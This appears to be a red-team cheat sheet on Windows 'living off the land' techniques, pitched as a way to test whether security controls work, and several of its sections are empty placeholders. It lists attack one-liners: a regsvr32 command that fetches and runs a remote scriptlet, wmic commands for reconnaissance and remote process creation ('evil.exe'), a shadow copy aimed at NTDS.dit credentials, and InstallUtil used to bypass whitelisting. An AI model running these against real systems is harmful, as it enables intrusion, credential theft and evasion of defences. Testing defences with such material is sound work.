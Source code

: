 # Native - Living off the land

Living off the land is using native operating system utilities to bypass controls in place. At most organizations, this will be AppWhitelisting, AV, endpoint detection software and so on. From the endpoint to the network, you should see some type of activity occur. If you have deep packet inspection, and a sct file is downloaded with powershell, did your network device detect or prevent this? Remember, this is to determine if your current controls are properly working as they were described to you.

## One Liners


## net.exe

Input:

    code here

Output:

    code here

## Regsvr32.exe

Input:

    code here

Output:

    code here

    regsvr32.exe /s /n /u /i:https://<website>/data scrobj.dll

## waitfor.exe

Input:

    code here

Output:

    code here

## wmic.exe

Provided by: https://www.fireeye.com/content/dam/fireeye-www/services/pdfs/sans-dfir-2015.pdf


### Reconnaissance

Input:

    wmic useraccount get /ALL

Input:

    wmic process get caption,executablepath,commandline

Input:

    wmic qfe get description,installedOn /format:csv

Input:

    wmic /node:”192.168.0.1” service where (caption like “%sql server (%”)

Input:

    get-wmiobject –class “win32_share” –namespace “root\CIMV2” –computer “targetname”

### Lateral Movement

Input:

    wmic /node:REMOTECOMPUTERNAME process call create “COMMAND AND ARGUMENTS"

Input:

    wmic /NODE: “192.168.0.1” process call create “evil.exe”

### Privileged Escalation

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create “at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create “cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit“

## bitsadmin.exe

Input:

    code here

Output:

    code here

## Installutil.exe

Download the two binaries:

Input for pshell.dll:

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U pshell.dll

Input for rwxhunter.exe:

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /U rwxhunter.exe
